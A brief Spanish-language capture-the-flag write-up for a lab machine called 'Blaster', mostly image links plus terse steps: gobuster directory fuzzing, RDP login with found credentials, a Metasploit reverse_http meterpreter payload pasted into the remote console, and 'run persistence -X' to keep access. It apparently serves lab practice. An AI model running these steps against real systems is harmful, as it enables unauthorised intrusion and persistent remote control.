










# Blaster
Nmap


Fuzzing
gobuster dir -u http://10.10.131.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php 



MSRDP
Nos conectamos al Escritorio remoto
xfreerdp /u:wade /p:parzival /v:10.10.131.79En el historial podemos ver el CVE
En este video veremos el CVE en funcionamiento: https://www.youtube.com/watch?v=3BQKpPNlTSo
 



Metasploit
 

Colocamos el LHOST
Colocamos el payload
set payload windows/meterpreter/reverse_httpEjecutamos la sesion como job

Copiamos el código en la consola de la máquina con acceso remoto, ya tendremos una shell meterpreter activa
Ejecutando el siguiente comando, conseguiremos persistencia en la máquina cuando el sistema se ejecuta
run persistence -X